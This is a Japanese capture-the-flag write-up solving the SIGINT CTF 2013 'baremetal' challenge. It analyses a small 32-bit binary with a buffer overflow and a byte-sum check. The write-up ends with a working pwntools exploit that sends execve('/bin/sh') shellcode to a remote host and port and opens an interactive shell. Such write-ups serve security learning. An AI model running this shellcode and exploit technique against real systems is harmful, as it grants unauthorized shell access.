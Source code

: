 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2013/sigint-ctf-2013-baremetal/
  - /blog/2016/03/31/sigint-ctf-2013-baremetal/
date: 2016-03-31T04:41:15+09:00
tags: [ "ctf", "writeup", "pwn", "sigint-ctf", "bof" ]
"target_url": [ "http://shell-storm.org/repo/CTF/SIGINT-2013/pwning/baremetal-100/" ]
---
```


# SIGINT CTF 2013 baremetal

## 解法

``` sh
$ file baremetal
baremetal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped

$ checksec --file baremetal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   baremetal

$ ldd baremetal
    not a dynamic executable

$ ll baremetal
-rwxr-xr-x 1 user user 684 Jul  8  2013 baremetal
```

-   直接`int 0x80`する小さなバイナリ
-   入力を読み、この文字列がチェックを通過すれば、bss領域にあるコードを実行する

<!-- -->

-   入力にbofがあって、実行されるコードの先頭$1$byteを上書き可能
-   チェックは、各文字のascii codeの総和が0x1ee7であるかどうか、である
    -   入力が短すぎてもだめだが、これは容易に無視できる
    -   nullまでの総和であるので、bofすると考慮すべき文字が追加されるので注意
-   実行されるコードというのは`\x47\x47\xff\xe7` `inc edi; inc edi; jmp edi`
    -   bufferのaddressは`eax`に入っている
    -   `\x97` `xchg edi, eax`を使う
    -   以下を適当に叩いて探した どうせ高々$256$通りである

``` sh
$ echo -n $'\x97\x47\xff\xe7\0\0\0\0' > a && objdump -D a -b binary -mi386 -M intel
```

## 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

read_len = 0x3d
funptr = "\x47\x47\xff\xe7"
cmp_sum = 0x1ee7

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = \
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + \
    "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
xchg_edi_eax = "\x97"

payload = ["\xff", shellcode, xchg_edi_eax]
l = read_len - len(''.join(payload))
s = [1] * l
i = 0
measure = lambda: sum(map(ord,''.join(payload))) + sum(s) + sum(map(ord,funptr[1:]))
while measure() < cmp_sum:
    d = cmp_sum - measure()
    s[i] += min(255 - 1, d)
    i += 1
payload.insert(2, ''.join(map(chr,s)))
payload = ''.join(payload)

log.info(repr(payload))
log.info(str(sum(map(ord,payload))))

p = remote(args.host, args.port)
p.recvline()
p.send(payload)
time.sleep(0.2)
p.sendline('id')
p.interactive()
```
